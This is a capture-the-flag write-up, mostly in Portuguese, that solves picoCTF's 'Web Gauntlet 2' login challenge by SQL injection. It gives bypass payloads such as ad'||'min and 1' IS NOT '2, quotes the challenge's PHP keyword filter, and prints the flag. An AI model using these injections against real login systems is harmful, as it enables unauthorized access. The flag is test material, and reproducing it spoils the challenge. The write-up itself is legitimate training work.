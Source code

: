 # Gauntlet 2
###### Resolvido por @Menegaldo e @BrunoCuba 
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio  
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a 2 questão, percebi que ela seria quase igual a web gauntlet 2, por ter o mesmo esquema de uma página de Login e Senha.

![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

e depois acessei o filter.php, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso desse exercício é:

![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas eu procurei o ChatGpt e ele me deu algumas alternativas como:

´´´
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa
´´´

Porém essa tentativa já não foi favorável para mim, pois o site tem um filtro de tamanho de caracter também:

![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)

Depois disso, pedi pro gpt me passar todos os comandos do SQLite:

´´´
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
=
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()
´´´

Com todas essas opções comecei a tentar esses comandos, de alguma maneira para que o valor desse positivo e que nenhum filtro barrasse, mas nenhuma ideia que funcionasse. Com isso pedi ajuda ao gpt e ele falou pra eu tentar comparar 2 números diferentes com o IS NOT pra que o valor seja TRUE para que a lógica no SQLite me deixe acessar o site.

´´´
Minha primeira tentativa foi
LOGIN: 'qualquer coisa'
Senha: 1' IS NOT '2
´´´

![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)

![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)


E vi que também não adiantaria eu tentar entrar com outro usuário, com isso voltei ao WEB GAUNTLET 1 para ver como era o login de admin para burlar o filtro.
´´´
E eu tinha que jogar no campo de LOGIN: ad'||'min
e aí eu tentei novamente no campo SENHA: 1' IS NOT '2
´´´
E com isso eu consegui o login no site.

![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)
![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois acessei o filter.php e ele me apresentou o seguinte:

´´´
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>
´´´

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
